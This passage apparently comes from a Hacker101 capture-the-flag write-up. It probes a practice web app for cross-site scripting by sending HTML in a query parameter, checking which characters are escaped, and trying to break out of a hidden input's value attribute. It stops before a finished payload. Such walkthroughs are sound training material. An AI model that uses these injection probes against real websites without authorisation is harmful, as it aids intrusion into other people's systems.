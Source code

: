 So can we inject simple HTML into it?

```https://xxx.ctf.hacker101.com/?msg=<a href="#">test</a>```

Result 

```html
<div class="alert alert-success" role="alert">
    &lt;a href="x"&gt;test&lt;/a&gt;
</div>
```

Hmmm escaped, what other characters are escaped to help us?

```https://xxx.ctf.hacker101.com/?msg=<>/';"```

Result

```html
<div class="alert alert-success" role="alert">
    &lt;&gt;/';"
</div>
```

Hmmm perhaps not, is there a way around the escaping of < and >?

If it's possible then given the above exploits could we construct a URL such as

```https://xxx.ctf.hacker101.com/#searchterm=x&redirectUrl=index.php?msg=evilxss```

### Hidden input field searchtxt

Studying the DOM I noticed a strange hidden input field which seemingly serves no purpose

```html
<input value="" name="searchtxt" type="hidden">
```

It seems like you can adjust the URL to contain a request/query param such as

```https://xxx.ctf.hacker101.com/?searchtxt=hi"```

Which then shows up in the DOM

```html
<input value="hi" name="searchtxt" type="hidden">
```

OK can I end the input tag?

```https://xxx.ctf.hacker101.com/?searchtxt=hi"><```

No stripped

```html
<input value="hi" "="" name="searchtxt" type="hidden">
```

Let's try adding an event
